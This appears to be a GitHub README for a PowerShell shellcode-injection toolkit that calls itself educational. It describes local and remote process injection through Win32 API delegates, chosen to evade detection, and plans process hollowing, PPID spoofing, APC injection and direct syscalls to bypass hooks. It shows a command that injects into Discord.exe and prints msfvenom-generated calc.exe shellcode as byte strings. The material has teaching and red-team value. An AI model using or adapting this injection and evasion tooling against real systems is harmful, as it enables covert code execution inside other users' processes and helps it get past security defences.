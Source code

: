 
![image](https://github.com/user-attachments/assets/64fc45d9-b612-47ff-b1bd-e88c89c73259)

This project is a collect of educational PowerShell-based shellcode injection/execution tools with overly verbose comments by design.
The goal is to offer a modular, readable framework that can educate people on native Windows API usage, shellcode execution techniques,
and low-level PowerShell tomfoolery (without leaning on `Add-Type` or embedded `C#`).

It is written with learning in mind over pure stealth and evasion -- hence why it is written in PowerShell instead of any other
language that would *actually* make sense (though to be fair that is kinda what makes this project fun and interesting).

**Directory Structure**
```
ShellcodeLoaderPS/
|__ helpers/
|   |__ win32-examples/*        # Contains examples of Win32 API usage via helper functions (e.g., `CreateProcessA().ps1`).
|   |__ Build-Win32Struct.ps1   # Defines .NET data structs within the session usable by Win32 functions.
|   |__ Format-ByteArray.ps1    # Converts shellcode strings in different languages to usable byte arrays.
|   |__ Load-Win32Function.ps1  # Dynamically resolves and loads Win32 API functions into session via delegates.
|__ standalone/
|   |__ add-type/*              # Standalone function(s) for shellcode injection using `Add-Type`.
|   |__ win32/*                 # Standalone function(s) for shellcode injection using Win32 API via helper functions.
|   |__ native/*                # Standalone function(s) for shellcode injection using Native API via helper functions.
|__ Load-Shellcode.ps1          # Main shellcode injector function, wrapping functionality of standalone functions.
|__ calc32.bin                  # Example 32-bit `calc.exe` shellcode generated from `msfvenom` used for testing.
|__ calc64.bin                  # Example 64-bit `calc.exe` shellcode generated from `msfvenom` used for testing.
```
_(Note: this project is work-in-progress, therefore some directory structures haven't been implemented yet)_

---

## Technical Roadmap

> This project is actively in development and has a long way to go.  The below section provides a checklist
> with technical details of current and future completion goals, along with educational high-level breakdowns.

<details>
  <summary><b>✅ Avoiding Import Address Table (IAT) via Function Delegates</b></summary>
  
  - **Summary:**
    - This technique avoids common (and noisy) practices such as utilizing `Add-Type` and embedded `C#`.
    - This is accomplished via custom helpers to resolve and invoke raw function pointers with .NET delegates, allowing you to invoke them without adding an entry to the IAT.
    - Custom Scripts: [Load-Win32Function.ps1](./helpers/Load-Win32Function.ps1), [Build-Win32Struct.ps1](./helpers/Build-Win32Struct.ps1)`
</details>

<details>
  <summary><b>✅ Local Process Injection (via Kernel32.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into the current local process (i.e., `PowerShell`) using standard Win32 API calls (aka `Kernel32.dll`).
    - Skipping Native API (aka `Ntdll.dll`) due to remote process injection POC also supporting local process injection.
```mermaid
flowchart LR

%% Establish Processes
PS@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }
Proc@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }

subgraph Win32 Process Injection
  PS --> | Step 1:<br>**VirtualAlloc**<br>Allocate memory.  | Proc
  PS --> | Step 2:<br>**CopyMemory**<br>Copy shellcode to process. | Proc
  PS --> | Step 3:<br>**CreateThread**<br>Execute shellcode. | Proc
  PS --> | Step 4:<br>**WaitForSingleObject**<br>Wait for completion. | Proc
end
```
</details>

<details>
  <summary><b>✅ Remote Process Injection (via Kernel32.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into remote processes via the Win32 API (aka `Kernel32.dll`).
    - This also works for local process injection by targeting the current process' PID.
```mermaid
flowchart TD;

%% Establish Processes
PS@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }
Proc@{ shape: win-pane, label: "<b>Victim</b><br>(Remote Process)" }

subgraph Win32 Process Injection
  PS --> | Step 1:<br>**OpenProcess**<br>Acquire handle to process.  | Proc
  PS --> | Step 2:<br>**VirtualAllocEx**<br>Allocate memory. | Proc
  PS --> | Step 3:<br>**WriteProcessMemory**<br>Copy shellcode to process. | Proc
  PS --> | Step 4:<br>**CreateRemoteThread**<br>Execute shellcode. | Proc
end
```
</details>

<details>
  <summary><b>❌ Remote Process Injection (via Ntdll.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into remote processes via the Native API (aka `Ntdll.dll`).
    - This also works for local process injection by targeting the current process' PID.
```mermaid
flowchart TD;

%% Establish Processes
PS@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }
Proc@{ shape: win-pane, label: "<b>Victim</b><br>(Remote Process)" }

subgraph Native Process Injection
  PS --> | Step 1:<br>**NtOpenProcess**<br>Acquire handle to process.  | Proc
  PS --> | Step 2:<br>**NtAllocateVirtualMemory**<br>Allocate memory. | Proc
  PS --> | Step 3:<br>**NtWriteVirtualMemory**<br>Copy shellcode to process. | Proc
  PS --> | Step 4:<br>**NtCreateThreadEx**<br>Execute shellcode. | Proc
end
```
</details>

<details>
  <summary><b>❌ Process Hollowing</b></summary>
  
  - **Summary:**
    - Create a legitimate process in a suspended state, then replace the process' memory with malicious code before resuming execution.
</details>

<details>
  <summary><b>❌ Parent Process ID (PPID) Spoofing</b></summary>
  
  - **Summary:**
    - Spoof the parent process ID when creating processes.
    - This technique can make malicious processes appear spawned from trusted processes.
</details>

<details>
  <summary><b>❌ APC Injection (aka Earlybird)</b></summary>
  
  - **Summary:**
    - Queue shellcode execution to a thread's Asynchronous Procedure Call (APC) queue for stealthy execution.
</details>

<details>
  <summary><b>❌ Direct System Call Implementation</b></summary>
  
  - **Summary:**
    - Bypass userland API hooks by invoking direct system calls via SysCall stubs.
    - SysCalls are dependent on system architecture and build versions, so this will need to be very modular.
    - Reference: https://j00ru.vexillium.org/syscalls/nt/64/
</details>

## Load-Shellcode.ps1 Usage

Every script should hopefully be excessively documented, so plese refer to the source code for other examples.

```
Usage: Load-Shellcode [options]

Parameters:
  -Shellcode  -->  Shellcode to execute (can be a byte array or string containing file path or bytes).
  -TargetPID  -->  Target process PID to inject into. 
  -Debug      -->  Pause execution and print shellcode address for process attachment.
  -Help       -->  Return Get-Help information.

Example(s):
  ____________________________________________________________________________
 |                                                                            |
 | # Inject shellcode strintg into the current PowerShell process (and debug) |
 | PS> Load-Shellcode -Shellcode $calc64 -TargetPID $PID -Debug               |
 |                                                                            |
 | # Inject shellcode binary into 'Discord.exe'                               |
 | PS> $DiscordPID = (Get-Process -Name Discord).Id | Select -First 1         |
 | PS> Load-Shellcode -Shellcode .\calc64.bin -TargetPID $DiscordPID          |
 |____________________________________________________________________________|
```
_(Note: as of writing, only Win32-based remote process injection has been implemented -- will update over time)_

![image](https://github.com/user-attachments/assets/8753c151-8cc4-4f19-90be-23a8c2a620c5)

### Shellcode Parsing

For supported shellcode, the `-Shellcode` parameter is intentionally undeclared and written to accept most shellcode formats. Currently supports strings `[string]` and byte arrays `[byte[]]`.
If a standard array `[array]` is used, the array will be converted to a string prior to language detection. If a byte array is used, no formatting will occur.

Below is a table of supported string formats:

| Format | Example |
| --- | --- |
| Path to Raw Shellcode | `.\shellcode.bin` |
| Python Shellcode      | `'b"\x45\x78\x61\x6d\x70\x6c\x65"'` |
| C Shellcode           | `'\x45\x78\x61\x6d\x70\x6c\x65'` |
| C++ / C# Shellcode    | `'{0x45,0x78,0x61,0x70,0x6c,0x65}'` |

### Architecture Support
Works with both `Windows PowerShell` and `PowerShell Core (Pwsh)`. Using 64-bit PowerShell sessions
allows for both 64-bit and 32-bit injection, whereas 32-bit sessions only allow 32-bit injection.

## Shellcode Examples

Included in the files of this repository are two `calc.exe` shellcode files created from `msfvenom`, in both 32-bit and 64-bit...

... with that said, I recognize the inherent trust needed before executing mysterious, unknown shellcode.  With that said, below are string
variants (which are the literal exact bytes I used to write those two `.bin` files) -- so feel free to use these instead.

```powershell
# 32-bit Shellcode (C Format)
# > msfvenom -p windows/exec CMD=calc.exe -f c EXITFUNC=thread

$calc32 = '\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00'

# 64-bit Shellcode (C# Format)
# > msfvenom -p windows/x64/exec CMD=calc.exe -f csharp EXITFUNC=thread

$calc64 = '{
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,
0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,
0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,
0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,
0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,
0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,
0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
}'
```
For 32-bit reverse shell shellcode, check out my [genrev](https://github.com/tylerdotrar/genrev) project!
